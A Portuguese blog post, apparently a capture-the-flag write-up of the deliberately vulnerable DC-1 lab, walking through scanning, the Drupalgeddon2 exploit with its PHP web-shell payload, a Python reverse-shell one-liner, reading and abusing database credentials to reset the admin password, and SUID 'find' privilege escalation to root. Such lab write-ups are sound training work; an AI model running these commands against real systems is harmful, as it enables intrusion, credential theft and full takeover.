




<!--:::{
  "post_title": "CTF #01 - Exploração do laboratório DC-1",
  "post_description": "Aplicação de técnicas de enumeração e execução de <i>exploits</i>, captura de credenciais, e elevação de privilégio em Linux. A postagem foca no passo-a-passo direto ao ponto, mostrando as abordagens com as quais obtive sucesso na captura das <i>flags</i>",
  "post_created_at": "Sat Mar 28 2026 11:10:48 GMT-0300 (Brasilia Standard Time)"
}:::-->

## Laboratório DC-1 

> DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
>
> It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

O laboratório pode ser configurado usando VirtualBox. A imagem para download está disponível no repositório da <a target="_blank" href="https://www.vulnhub.com/entry/dc-1,292/">VulnhHub</a>.

Para a exploração, considere uma máquina Kali Linux.
Se necessário, veja <a href="https://daniloflorenzano.com.br/posts/kali-linux-no-docker/" target="_blank">Kali Linux no Docker</a>.

## Reconhecimento

### Identificar a máquina na rede local com `netdiscover`:

```bash
┌──(root㉿omarchy)-[~]
└─# netdiscover -r 192.168.0.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

 9 Captured ARP Req/Rep packets, from 9 hosts.   Total size: 522
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 ...
 ...
 192.168.0.119   08:00:27:ca:79:73      1      42  PCS Systemtechnik GmbH
```

-----
### Identificar as portas expostas com `nmap`:

```bash
┌──(root㉿omarchy)-[~]
└─# nmap -sV 192.168.0.119
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-28 14:30 +0000
Nmap scan report for 192.168.0.119
Host is up (0.00016s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
MAC Address: 08:00:27:CA:79:73 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
O resultado no `nmap` evidencia uma aplicação web na porta 80.

-----
### Identificar aplicação web:



A aplicação web executando na porta 80 é um servidor Drupal, um CMS, assim como Wordpress. Com a extensão Wappalyzer, é possível identificar que a versão sendo executada é a 7. 

-----
### Enumerar *exploits* com `searchsploit`:

```bash
┌──(root㉿omarchy)-[~]
└─# searchsploit drupal 7
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
...
...
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution     | php/webapps/44449.rb
```

O `searchsploit` retorna diversos *exploits*, porém reduzi a lista para evidenciar o que escolhi utilizar.

## Execução

### Obter *pseudo shell* com o exploit Drupalgeddon2:

```bash
mkdir dc1 && cd dc1/
searchsploit -m php/webapps/44449.rb
```

A execução do script abre um *pseudo shell* e com ele já permite a captura da **primeira bandeira**.

```bash
┌──(root㉿omarchy)-[/home/dc1]
└─# ruby 44449.rb http://192.168.0.119
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.0.119/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.0.119/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.0.119/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.0.119/includes/bootstrap.inc    (HTTP Response: 403)
[!] MISSING: http://192.168.0.119/core/includes/bootstrap.inc    (HTTP Response: 404)
[+] Found  : http://192.168.0.119/includes/database.inc    (HTTP Response: 403)
[+] URL    : v7.x/6.x?
[+] Found  : http://192.168.0.119/    (HTTP Response: 200)
[+] Metatag: v7.x/6.x [Generator]
[!] MISSING: http://192.168.0.119/    (HTTP Response: 200)
[+] Drupal?: v7.x/6.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo UFANATCP
[+] Result : UFANATCP
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.0.119/shell.php)
[!] Response: HTTP 200 // Size: 7.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.0.119/shell.php' -d 'c=hostname'
DC-1>> ls | grep flag
flag1.txt
DC-1>> cat flag1.txt
Every good CMS needs a config file - and so do you.
```

> Every good CMS needs a config file - and so do you.

Uma característica do DC-1 é que as bandeiras fornecem orientações dos próximos passos.

-----
### Melhorar o *shell* com *netcat*:

Antes de ir atrás do arquivo de configuração, uma opção válida é melhorar o *shell*.

Na máquina Kali:

```bash
┌──(root㉿omarchy)-[/]
└─# nc -lvnp 4444
listening on [any] 4444 ...
```

Na máquina DC-1

```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.9",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

O script Python executado na DC-1 eu obtive no portal <a target="_blank" href="https://gtfobins.org/gtfobins/python/#reverse-shell">GTFObins</a>. 

Ao reproduzir, é importante alterar o IP de connect pelo IP da sua máquina Kali (a minha, no momento, era 192.168.0.9).

O *reverse shell* será aberto na máquina Kali:

```bash
┌──(root㉿omarchy)-[/]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.9] from (UNKNOWN) [192.168.0.119] 44257
www-data@DC-1:/var/www$ ls
ls
COPYRIGHT.txt       MAINTAINERS.txt  includes     robots.txt  web.config
INSTALL.mysql.txt   README.txt       index.php    scripts     xmlrpc.php
INSTALL.pgsql.txt   UPGRADE.txt      install.php  shell.php
INSTALL.sqlite.txt  authorize.php    misc         sites
INSTALL.txt         cron.php         modules      themes
LICENSE.txt         flag1.txt        profiles     update.php
www-data@DC-1:/var/www$
```

### Capturar credenciais do MySQL:

No Drupal, as credenciais do banco de dados está no arquivo de configurações, que por padrão fica no diretório `/var/www/sites/default`.

Além das credenciais, no arquivo se encontra a **segunda bandeira**.

```bash
www-data@DC-1:/var/www$ cd /var/www/sites/default/
www-data@DC-1:/var/www/sites/default$ ls
ls
default.settings.php  files  settings.php
www-data@DC-1:/var/www/sites/default$ cat settings.php
cat settings.php
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
...
```

> Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access). What can you do with these credentials?

-----
### Alterar credenciais de administrador do Drupal:**

As credenciais de usuário do Drupal ficam na tabela `users`.

```bash
www-data@DC-1:/var/www/sites/default$ mysql -u dbuser -pR0ck3t drupaldb
mysql> select name, pass from users;
select name, pass from users;
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
|       |                                                         |
| admin | $S$Dowp8Hu5SUTSG1FOc/zHfsdCWVgKIHnD1ZgcUYdHpC9NQtwLasEu |
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
+-------+---------------------------------------------------------+

mysql> exit
exit
Bye
```

Não é possível utilizar a senha dessa forma, pois sofreu processo de *hashing*. O que pode ser feito é criar uma nova senha, passar ela pelo exato mesmo processo de *hashing* e alterar o registro no banco com o novo *hash*.

Tendo acesso ao servidor do Drupal, esse processo é simples. O script utilizado para fazer o processo de *hashing* fica no diretório `/var/www/scripts/`.

Dado a como o script foi desenvolvido, é necessário que seja executado do diretório `/var/www/`.

```bash
www-data@DC-1:/var/www/sites/default$ cd /var/www/scripts/
cd /var/www/scripts/
www-data@DC-1:/var/www/scripts$ ls
ls
code-clean.sh  drupal.sh            generate-d6-content.sh  run-tests.sh
cron-curl.sh   dump-database-d6.sh  generate-d7-content.sh  test.script
cron-lynx.sh   dump-database-d7.sh  password-hash.sh
www-data@DC-1:/var/www/scripts$ cd ..
cd ..
www-data@DC-1:/var/www$ php scripts/password-hash.sh novasenha
php scripts/password-hash.sh novasenha

password: novasenha             hash: $S$D2rtDg4oSMooJimjyyNn93nXK/f5emudOSGuWPFfPMZRsKMxpuTX
```

Com o *hash* da nova senha em mãos, basta alterar o registro no banco de dados.

```bash
www-data@DC-1:/var/www$ mysql -u dbuser -pR0ck3t drupaldb
mysql -u dbuser -pR0ck3t drupaldb

mysql> UPDATE users SET pass = '$S$D2rtDg4oSMooJimjyyNn93nXK/f5emudOSGuWPFfPMZRsKMxpuTX' WHERE name = 'admin';
UPDATE users SET pass = '$S$D2rtDg4oSMooJimjyyNn93nXK/f5emu<s = '$S$D2rtDg4oSMooJimjyyNn93nXK/f5emudOSGuWPFfPMZ       <Nn93nXK/f5emudOSGuWPFfPMZRsKMxpuTX' WHERE name = 'a       dmin';
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> exit
exit
Bye
```

-----
### Acessar Drupal como administrador:

Com as credenciais alteradas, basta *logar* com "admin" e "novasenha".



Em `http://192.168.0.119/node/2#overlay-context=node&overlay=admin/content` se encontra a **terceira bandeira**.





> Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.


-----
### Escalar privilégio com `find`:

As palavras em caixa alta e o argumento `-exec` da terceira bandeira dá a direção.

Ao enumerar os executaveis que conseguem performar ações com permissão de super usuário (SUIDs), assim como indicado pela bandeira, `find` aparece na lista.

> SUIDs (files & programs that have the permission of their owner -- usually root. Useful for privilege escalation)

O comando para executar essa enumeração eu consegui em <a target="_blank" href="https://cyberlab.pacific.edu/resources/linux-enumeration-cheat-sheet">Linux Enumeration Cheat Sheet</a>.

```bash
www-data@DC-1:/var/www$ find / -perm -4000 -user root -exec ls -ld {} \; 2> /dev/null
<d / -perm -4000 -user root -exec ls -ld {} \; 2> /d       ev/null
-rwsr-xr-x 1 root root 88744 Dec 10  2012 /bin/mount
-rwsr-xr-x 1 root root 31104 Apr 13  2011 /bin/ping
-rwsr-xr-x 1 root root 35200 Feb 27  2017 /bin/su
-rwsr-xr-x 1 root root 35252 Apr 13  2011 /bin/ping6
-rwsr-xr-x 1 root root 67704 Dec 10  2012 /bin/umount
-rwsr-xr-x 1 root root 35892 Feb 27  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 45396 Feb 27  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 30880 Feb 27  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 44564 Feb 27  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 66196 Feb 27  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 83912 Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find
-rwsr-xr-x 1 root root 937564 Feb 11  2018 /usr/sbin/exim4
-rwsr-xr-x 1 root root 9660 Jun 20  2017 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 248036 Jan 27  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5412 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 321692 Feb 10  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 84532 May 22  2013 /sbin/mount.nfs
```

Confirmada a presença do `find` na lista, basta a execução do comando para criar o shell com permissão de *root*.

O comando encontrei em <a target="_blank" href="https://gtfobins.org/gtfobins/find/#shell">GTFObins</a>.

```bash
www-data@DC-1:/var/www$ find . -exec /bin/sh \; -quit
find . -exec /bin/sh \; -quit
# whoami
whoami
root
```

A **última bandeira** se encontra no diretório `/root/`.

```bash
# ls /root
ls /root
thefinalflag.txt
# cat /root/thefinalflag.txt
cat /root/thefinalflag.txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```
> Hopefully you've enjoyed this and learned some new skills.
>
> You can let me know what you thought of this little journey by contacting me via Twitter - @DCAU7

---
## Conclusão

DC-1 foi meu primeiro CTF e tive uma experiência positiva com o laboratório. As orientações deixadas pelo autor em cada bandeira ditam o próximo passo, mas não de maneira óbvia, o que provoca a curiosidade de entender a pista e extrair dela o caminho para a próxima exploração.